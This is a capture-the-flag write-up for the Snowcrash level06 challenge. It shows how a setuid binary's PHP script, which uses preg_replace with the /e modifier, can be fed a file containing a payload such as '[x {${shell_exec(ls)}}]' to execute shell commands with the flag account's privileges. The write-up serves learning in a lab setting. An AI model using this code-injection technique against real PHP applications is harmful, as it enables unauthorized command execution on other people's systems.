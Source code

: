# Snowcrash06

This time we have a binary as well as a php file.
The binary does way too much call with ltrace for me to show them here



```
~$ ls -la ./level06
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 ./level06
~$ ./level06 a
PHP Warning:  file_get_contents(a): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4
```

So it seems that the ./level06 runs the level06.php file, considering it refers to it

It does a bunch of preg_replace calls that seem pretty basic, but there is one that stands out, with a /e, https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4

This flag makes it possible to inject code to be executed here
It seems that the second argument is not important, and the first argument must be a filename so our exploit will be in this file

This website is pretty useful to understant wtf is going in in thoses regexes https://regex101.com/

So the bare minimum we need to escape is 
```text
[x command]             //This is allowing us to get our text back from the escape
[x shell_exec(ls)]      //This is it with something that should launch an ls
[x ${shell_exec(ls)}]   //This doesnt sit right with the y function and complains
[x {${shell_exec(ls)}}] //Add a bit more encapsulation and now it works. Note that you can add even more now and it'll still be ok
```

Again, we don't need to go into the flag account since the level06 binary has a suid